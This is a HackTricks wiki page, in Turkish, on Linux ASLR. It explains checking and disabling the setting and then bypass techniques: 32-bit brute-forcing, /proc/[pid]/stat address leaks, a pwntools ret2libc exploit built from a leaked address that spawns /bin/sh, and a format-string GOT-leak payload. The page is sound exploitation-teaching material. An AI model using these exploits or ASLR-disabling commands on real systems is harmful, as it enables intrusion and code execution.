 # ASLR

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Temel Bilgiler

**Adres Alanı Düzeni Rastgeleleştirme (ASLR)**, işletim sistemlerinde **sistem ve uygulama süreçleri tarafından kullanılan bellek adreslerini rastgeleleştirmek** için kullanılan bir güvenlik tekniğidir. Bu sayede, bir saldırganın belirli süreçlerin ve verilerin, örneğin yığın, yığın bellek ve kütüphaneler gibi, konumunu tahmin etmesi önemli ölçüde zorlaşır ve böylece belirli türdeki istismarları, özellikle de tampon taşmalarını azaltır.

### **ASLR Durumunu Kontrol Etme**

Bir Linux sisteminde ASLR durumunu **kontrol etmek** için, `/proc/sys/kernel/randomize_va_space` dosyasındaki değeri okuyabilirsiniz. Bu dosyada saklanan değer, uygulanan ASLR türünü belirler:

* **0**: Rastgeleleştirme yok. Her şey statik.
* **1**: İhtiyatlı rastgeleleştirme. Paylaşılan kütüphaneler, yığın, mmap(), VDSO sayfası rastgeleleştirilmiştir.
* **2**: Tam rastgeleleştirme. İhtiyatlı rastgeleleştirme ile rastgeleleştirilen unsurlara ek olarak, `brk()` ile yönetilen bellek rastgeleleştirilmiştir.

ASLR durumunu kontrol etmek için aşağıdaki komutu kullanabilirsiniz:
```bash
cat /proc/sys/kernel/randomize_va_space
```
### **ASLR'yi Devre Dışı Bırakma**

ASLR'yi **devre dışı bırakmak** için `/proc/sys/kernel/randomize_va_space` değerini **0** olarak ayarlarsınız. ASLR'yi devre dışı bırakmak, genellikle test veya hata ayıklama senaryoları dışında önerilmez. İşte bunu nasıl yapabileceğiniz:
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
ASLR'yi bir yürütme için devre dışı bırakmak için de şunu kullanabilirsiniz:
```bash
setarch `arch` -R ./bin args
setarch `uname -m` -R ./bin args
```
### **ASLR'yi Etkinleştirme**

ASLR'yi **etkinleştirmek** için, `/proc/sys/kernel/randomize_va_space` dosyasına **2** değerini yazabilirsiniz. Bu genellikle root ayrıcalıkları gerektirir. Tam rastgeleleştirme, aşağıdaki komutla yapılabilir:
```bash
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```
### **Yeniden Başlatmalarda Süreklilik**

`echo` komutlarıyla yapılan değişiklikler geçicidir ve yeniden başlatıldığında sıfırlanacaktır. Değişikliği kalıcı hale getirmek için, `/etc/sysctl.conf` dosyasını düzenlemeniz ve aşağıdaki satırı eklemeniz veya değiştirmeniz gerekir:
```tsconfig
kernel.randomize_va_space=2 # Enable ASLR
# or
kernel.randomize_va_space=0 # Disable ASLR
```
`/etc/sysctl.conf` dosyasını düzenledikten sonra, değişiklikleri uygulamak için:
```bash
sudo sysctl -p
```
Bu, ASLR ayarlarınızın yeniden başlatmalar arasında kalmasını sağlayacaktır.

## **Atlatmalar**

### 32bit brute-forcing

PaX, işlem adres alanını **3 gruba** ayırır:

* **Kod ve veri** (başlatılmış ve başlatılmamış): `.text`, `.data` ve `.bss` —> `delta_exec` değişkeninde **16 bit** entropi. Bu değişken, her işlemle rastgele başlatılır ve başlangıç adreslerine eklenir.
* `mmap()` ile tahsis edilen **bellek** ve **paylaşılan kütüphaneler** —> **16 bit**, `delta_mmap` olarak adlandırılır.
* **Yığın** —> **24 bit**, `delta_stack` olarak adlandırılır. Ancak, etkili olarak **11 bit** kullanır (10. bayttan 20. bayta kadar dahil), **16 bayt** hizalanmış —> Bu, **524,288 olası gerçek yığın adresi** ile sonuçlanır.

Önceki veriler 32-bit sistemler içindir ve azaltılmış nihai entropi, istismar başarılı bir şekilde tamamlanana kadar yürütmeyi tekrar tekrar denemek suretiyle ASLR'yi atlatmayı mümkün kılar.

#### Brute-force fikirleri:

* Eğer shellcode'dan önce **büyük bir NOP kaydı** barındıracak kadar büyük bir taşma varsa, yığında adresleri brute-force yaparak akışın **NOP kaydının bir kısmının üzerinden atlamasını** sağlayabilirsiniz.
* Taşma o kadar büyük değilse ve istismar yerel olarak çalıştırılabiliyorsa, **NOP kaydını ve shellcode'u bir ortam değişkenine eklemek** mümkündür.
* Eğer istismar yerel ise, libc'nin temel adresini brute-force yapmayı deneyebilirsiniz (32bit sistemler için yararlıdır):
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
* Eğer uzaktaki bir sunucuya saldırıyorsanız, **`libc` fonksiyonu `usleep`'in adresini brute-force etmeyi** deneyebilirsiniz, argüman olarak 10 (örneğin) geçerek. Eğer bir noktada **sunucu yanıt vermek için 10 saniye ekstra alıyorsa**, bu fonksiyonun adresini bulmuşsunuzdur.

{% hint style="success" %}
64 bit sistemlerde entropi çok daha yüksektir ve bu mümkün değildir.
{% endhint %}

### Yerel Bilgiler (`/proc/[pid]/stat`)

Bir sürecin **`/proc/[pid]/stat`** dosyası her zaman herkes tarafından okunabilir ve **ilginç** bilgiler içerir, örneğin:

* **startcode** & **endcode**: İkili dosyanın **TEXT**'inin üstünde ve altında bulunan adresler
* **startstack**: **stack**'in başlangıç adresi
* **start\_data** & **end\_data**: **BSS**'nin üstünde ve altında bulunan adresler
* **kstkesp** & **kstkeip**: Mevcut **ESP** ve **EIP** adresleri
* **arg\_start** & **arg\_end**: **cli argümanlarının** üstünde ve altında bulunan adresler.
* **env\_start** & **env\_end**: **env değişkenlerinin** üstünde ve altında bulunan adresler.

Bu nedenle, eğer saldırgan, istismar edilen ikili dosyanın bulunduğu bilgisayarda ise ve bu ikili dosya ham argümanlardan taşmayı beklemiyorsa, ancak bu dosyayı okuduktan sonra oluşturulabilecek farklı bir **girdi** üzerinden bekliyorsa, bir saldırganın **bu dosyadan bazı adresleri alması ve bunlardan istismar için ofsetler oluşturması mümkündür**.

{% hint style="success" %}
Bu dosya hakkında daha fazla bilgi için [https://man7.org/linux/man-pages/man5/proc.5.html](https://man7.org/linux/man-pages/man5/proc.5.html) adresinde `/proc/pid/stat` araması yapın.
{% endhint %}

### Bir leak'e sahip olmak

* **Zorluk bir leak vermektir**

Eğer size bir leak verilirse (kolay CTF zorlukları), ondan ofsetleri hesaplayabilirsiniz (örneğin, istismar ettiğiniz sistemde kullanılan tam libc sürümünü bildiğinizi varsayarak). Bu örnek istismar, [**buradan alınmıştır**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/aslr-bypass-with-given-leak) (daha fazla ayrıntı için o sayfaya bakın):
```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
'A' * 32,
libc.sym['system'],
0x0,        # return address
next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```
* **ret2plt**

Bir buffer overflow kullanarak, libc'den bir fonksiyonun adresini dışarı sızdırmak için bir **ret2plt** istismar etmek mümkün olacaktır. Kontrol et:

{% content-ref url="ret2plt.md" %}
[ret2plt.md](ret2plt.md)
{% endcontent-ref %}

* **Format Strings Arbitrary Read**

ret2plt'de olduğu gibi, eğer bir format string zafiyeti aracılığıyla rastgele bir okuma yapabiliyorsanız, GOT'dan bir **libc fonksiyonu** adresini dışarı sızdırmak mümkündür. Aşağıdaki [**örnek buradan**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt\_and\_got):
```python
payload = p32(elf.got['puts'])  # p64() if 64-bit
payload += b'|'
payload += b'%3$s'              # The third parameter points at the start of the buffer

# this part is only relevant if you need to call the main function again

payload = payload.ljust(40, b'A')   # 40 is the offset until you're overwriting the instruction pointer
payload += p32(elf.symbols['main'])
```
Daha fazla bilgi için Format Strings arbitrary read hakkında şuraya bakabilirsiniz:

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}

### Ret2ret & Ret2pop

ASLR'yi, yığın içindeki adresleri kullanarak atlatmayı deneyin:

{% content-ref url="../../stack-overflow/ret2ret.md" %}
[ret2ret.md](../../stack-overflow/ret2ret.md)
{% endcontent-ref %}

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'ı takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
